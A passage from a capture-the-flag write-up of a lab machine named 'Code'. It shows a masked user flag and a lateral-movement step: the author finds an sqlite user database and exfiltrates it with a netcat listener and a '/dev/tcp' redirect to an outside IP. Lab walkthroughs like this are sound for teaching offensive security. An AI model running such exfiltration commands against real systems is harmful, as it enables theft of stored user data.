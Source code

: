 ```plaintext
app-production@code:~$ cat user.txt
cat user.txt
6c9bc18baa9019db68f57821xxxxxxxx
```

## Lateral movement
We list the content of the **app** directory, we find a directory called instance, containing an  `sqlite3` database file :  

```plaintext
app-production@code:~/app$ find . -type f
find . -type f
./app.py
./static/css/styles.css
./templates/index.html
./templates/codes.html
./templates/register.html
./templates/login.html
./templates/about.html
./__pycache__/app.cpython-38.pyc
./instance/database.db
app-production@code:~/app$
```
We download this file to our machine, by :
1) Starting a listener on port 1337 and redirects the incoming data to a file on our machine : 
```bash
nc -l -p 1337 > database.db
```

1) Sending the contents of file directly to the listening netcat server over TCP from the box :
```bash
cat database.db > /dev/tcp/10.10.16.22/1337
```

We open this database file using **sqlitebrowser** :  
![Code ](/assets/img/posts/code/tables.png)
_Database tables list_  
We read the contain of the table user : 

![Code ](/assets/img/posts/code/user.png)
_User table_  
